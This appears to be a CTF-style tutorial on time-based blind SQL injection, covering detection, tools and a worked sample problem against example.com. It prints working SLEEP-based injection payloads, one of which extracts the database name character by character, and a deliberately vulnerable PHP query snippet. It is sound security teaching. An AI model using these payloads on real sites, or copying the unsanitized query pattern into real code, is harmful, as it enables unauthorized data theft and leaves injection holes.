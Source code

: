

# SQL Injection: Time-Based Blind SQL Injection

## Introduction

Time-Based Blind SQL Injection is a type of SQL injection attack where the attacker uses SQL commands that cause the database to delay its response. By measuring the time it takes for the server to respond, the attacker can infer information about the database.

## Table of Contents

- [SQL Injection: Time-Based Blind SQL Injection](#sql-injection-time-based-blind-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Time-Based Blind SQL Injection vulnerabilities, look for inputs that cause delays in server responses. Indicators include:

1. **Behavior Testing:** Entering SQL syntax that includes delay functions (e.g., `SLEEP`) to see if the application response time changes.
2. **Consistent Delays:** Testing with various delay times to confirm the behavior. Example:
```SQL
http://example.com/item.php?id=1 AND IF(1=1, SLEEP(5), 0) -- (5-second delay)
http://example.com/item.php?id=1 AND IF(1=2, SLEEP(5), 0) -- (No delay)
```
3. **Code analysis:** When the source code is provided look for php code that doesn't sanitize the input.
Here is an example of a vulnerable PHP code snippet:
```php
<?php
$id = $_GET['id'];
$query = "SELECT * FROM items WHERE id = '$id'";
$result = mysqli_query($conn, $query);
?>
```
## Code/tools/websites

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites
> https://www.hackthebox.com/: Great place to learn and practice problems
>
> https://picoctf.com/: They have many labs and past question which you can try with great write-ups available online.

## Sample problem

### Problem Statement
You are given access to a web application with an item details page. The URL for the item details page is:
```plaintext
http://example.com/item.php?id=1
```
Identify if the application is vulnerable to Time-Based Blind SQL Injection and extract the first character of the database name.

(`In reality you would need to do much more than that, but again out of scope for this topic.`)

### Solution
1. Test for SQL injection vulnerability using time-based testing:
   ```SQL
   http://example.com/item.php?id=1 AND IF(1=1, SLEEP(5), 0) -- (5-second delay)
   http://example.com/item.php?id=1 AND IF(1=2, SLEEP(5), 0) -- (No delay)
   ```

2. Use time-based payload to determine the first character of the database name:
   ```SQL
   http://example.com/item.php?id=1 AND IF(SUBSTRING(database(),1,1)='a', SLEEP(5), 0) -- (Check for 'a')
   ```

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/blind/time-delays)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Time-Based Blind SQL Injection exploits delays in server response times to infer information about the database. Identifying these vulnerabilities requires careful timing analysis and checking things one by one. 